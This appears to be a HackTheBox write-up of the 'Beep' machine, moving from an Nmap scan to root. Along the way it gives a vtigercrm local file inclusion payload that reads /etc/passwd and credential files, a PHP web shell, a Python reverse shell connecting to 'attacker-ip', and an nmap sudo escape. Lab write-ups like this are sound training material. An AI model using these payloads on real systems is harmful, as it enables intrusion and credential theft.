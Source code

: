 ```yaml
---
title: "Beep"
platform: "HackTheBox"
difficulty: "Medium"
date: 2024-02-20
tags: ["lfi"]
---
```


![infocar](media/infocard.png)

Beep is a medium-difficulty machine on HackTheBox, offering a variety of challenges that test your skills in enumeration, vulnerability exploitation, and privilege escalation. This walkthrough will guide you through the process of compromising the Beep machine, from initial reconnaissance to gaining root access.

## Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-03 08:13 EST
Nmap scan report for 10.10.10.7
Host is up (0.62s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: RESP-CODES USER UIDL LOGIN-DELAY(0) APOP IMPLEMENTATION(Cyrus POP3 server v2) EXPIRE(NEVER) AUTH-RESP-CODE PIPELINING STLS TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/https?
|_ssl-date: 2020-12-03T14:18:21+00:00; +1h01m04s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 1h01m03s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 377.37 seconds
```

**Key Services Identified:**

- **HTTP (80):** Elastix login page.
- **HTTP (10000):** Webmin interface.
- **MySQL (3306):** Restricted to localhost.

### Web Enumeration

Visiting the HTTP service on port 80 revealed an Elastix login page. Attempts to log in with default credentials (`elastix:elastix`, `admin:admin`, `admin:password`, `admin:elastix`) were unsuccessful. SQL injection attempts also proved futile.

![homepage](media/homepage.png)

**Directory Brute-Forcing**:

Using `ffuf`, we discovered a directory named `vtigercrm`, which hosted another login page.

![vtiger](media/vtiger.png)

Webmin was hosted on port 10000, presenting another potential attack vector.

![webmin](media/webmin.png)

### Local File Inclusion

Researching Elastix vulnerabilities revealed a Local File Inclusion (LFI) vulnerability. The following payload was used to exploit this:

so we get lfi by using ` /vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action`

![ex-webmin](media/ex-webmin.png)

![ex-elastic](media/ex-elastix.png)

This payload successfully retrieved the `/etc/passwd` file, confirming the LFI vulnerability.

![lfi](media/lfi.png)

### Extracting Credentials

Elastix stores its credentials in the `/etc/elastix.conf` file. Using the LFI vulnerability, we accessed this file and extracted the following credentials:

![creds](media/creds.png)

## Gaining shell

### Attempting to Exploit Credentials

Attempts to use the extracted credentials to access MySQL and SSH were unsuccessful due to IP restrictions. However, the credentials worked on the Elastix and vtiger CMS login pages.

### Uploading a Reverse Shell

In the vtiger CMS, we found a file upload vulnerability in the "Company Details" section under "Admin Settings." We crafted a PHP reverse shell payload:

```php
<?php system($_GET["cmd"]); ?>
```

After uploading the payload as a logo image, we located the uploaded file path by inspecting the page source.

![shellpath](media/shellpath.png)

### Executing Commands and Gaining a Shell

Navigating to the uploaded file allowed us to execute commands. Using a Python reverse shell, we gained access to the machine:

![cmdexec](media/cmdexe.png)


```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker-ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![user](media/user.png)

## Getting root

### Enumerating Users

On the machine, we found two users: `fenis` and `spamfilter`. The `user.txt` flag was located in the home directory of `fenis`.

### Exploiting Sudo Privileges

The `spamfilter` user had sudo privileges to run several programs. We leveraged Nmap to escalate privileges to root:

```bash
sudo nmap --interactive
nmap> !sh
```

**Root Shell Obtained:**

![root](media/root.png)
